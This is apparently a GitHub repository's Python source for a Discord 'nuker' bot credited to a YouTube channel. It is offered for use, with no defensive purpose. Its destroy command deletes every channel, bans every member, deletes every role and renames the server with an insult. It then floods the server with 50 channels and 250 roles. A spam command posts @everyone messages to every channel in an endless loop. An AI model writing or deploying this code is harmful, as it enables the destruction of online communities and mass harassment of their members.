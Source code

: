 # Oron-YouTube-Discord-Servers-Fucker
Oron YouTube - https://www.youtube.com/channel/UCLCH5YUGkWdCckVTDUAQyFg
import discord, subprocess, sys, time, os, colorama, io, random
import asyncio
from discord.ext import commands

client = commands.Bot(description='Test', command_prefix = '/')
intents = discord.Intents.all()
bot = commands.Bot(command_prefix='/', intents=intents, help_command=None)

players = {}

def RandomColor(): 
    randcolor = discord.Color(random.randint(0x000000, 0xFFFFFF))
    return randcolor

@client.event
async def on_ready():
    print('----------------------')
    print("""\
 __      __          ___                                        
/\ \  __/\ \        /\_ \                                       
\ \ \/\ \ \ \     __\//\ \     ___    ___     ___ ___      __   
 \ \ \ \ \ \ \  /'__`\\ \ \   /'___\ / __`\ /' __` __`\  /'__`\ 
  \ \ \_/ \_\ \/\  __/ \_\ \_/\ \__//\ \L\ \/\ \/\ \/\ \/\  __/ 
   \ `\___x___/\ \____\/\____\ \____\ \____/\ \_\ \_\ \_\ \____
    '\/__//__/  \/____/\/____/\/____/\/___/  \/_/\/_/\/_/\/____/
                                                                
                                                                
 ______            _____                           
/\__  _\          /\  __`\                         
\/_/\ \/   ___    \ \ \/\ \  _ __   ___     ___    
   \ \ \  / __`\   \ \ \ \ \/\`'__\/ __`\ /' _ `\  
    \ \ \/\ \L\ \   \ \ \_\ \ \ \//\ \L\ \/\ \/\ \ 
     \ \_\ \____/    \ \_____\ \_\\ \____/\ \_\ \_
      \/_/\/___/      \/_____/\/_/ \/___/  \/_/\/_/
                                                   
                                                   
 ____            ___       ___      ____            __      
/\  _`\         /\_ \    /'___\    /\  _`\         /\ \__   
\ \,\L\_\     __\//\ \  /\ \__/    \ \ \L\ \    ___\ \ ,_\  
 \/_\__ \   /'__`\\ \ \ \ \ ,__\    \ \  _ <'  / __`\ \ \/  
   /\ \L\ \/\  __/ \_\ \_\ \ \_/     \ \ \L\ \/\ \L\ \ \ \_ 
   \ `\____\ \____\/\____\\ \_\       \ \____/\ \____/\ \__
    \/_____/\/____/\/____/ \/_/        \/___/  \/___/  \/__/
                                                                               
        """)
@client.command(pass_context=True)
async def destroy(ctx):
    await ctx.message.delete()
    for channel in list(ctx.guild.channels):
        try:
            await channel.delete()    
        except:
            pass
    for user in list(ctx.guild.members):
        try:
            await user.ban()
        except:
            pass    
    for role in list(ctx.guild.roles):
        try:
            await role.delete()
        except:
            pass
    try:
        await ctx.guild.edit(
            name='FUCKED BY ORON',
            description="https://SstrixX.wtf",
            reason="https://SstrixX-selfbot.github.io",
            icon=None,
            banner=None
        )  
    except:
        pass        
    for _i in range(50):
        await ctx.guild.create_text_channel(name='oron-youtube')
    for _i in range(250):
        await ctx.guild.create_role(name='Oron YouTube', color=RandomColor())
@client.command(pass_context=True)
async def spam(ctx):
    guild = ctx.guild
    await ctx.message.delete()
    while True:
        for channel in ctx.guild.channels:
            await channel.send('Fucked By Oron | Credit - YouTube Channel | https://www.youtube.com/channel/UCLCH5YUGkWdCckVTDUAQyFg | @everyone')

token = input("""              

 88888888b            dP                     
 88                   88                     
a88aaaa    88d888b. d8888P .d8888b. 88d888b. 
 88        88'  `88   88   88ooood8 88'  `88 
 88        88    88   88   88.  ... 88       
 88888888P dP    dP   dP   `88888P' dP       
                                             
dP    dP                            
Y8.  .8P                            
 Y8aa8P  .d8888b. dP    dP 88d888b. 
   88    88'  `88 88    88 88'  `88 
   88    88.  .88 88.  .88 88       
   dP    `88888P' `88888P' dP       
                                    
d888888P          dP                         
   88             88                         
   88    .d8888b. 88  .dP  .d8888b. 88d888b. 
   88    88'  `88 88888"   88ooood8 88'  `88 
   88    88.  .88 88  `8b. 88.  ... 88    88 
   dP    `88888P' dP   `YP `88888P' dP    dP               : """)

client.run(token)
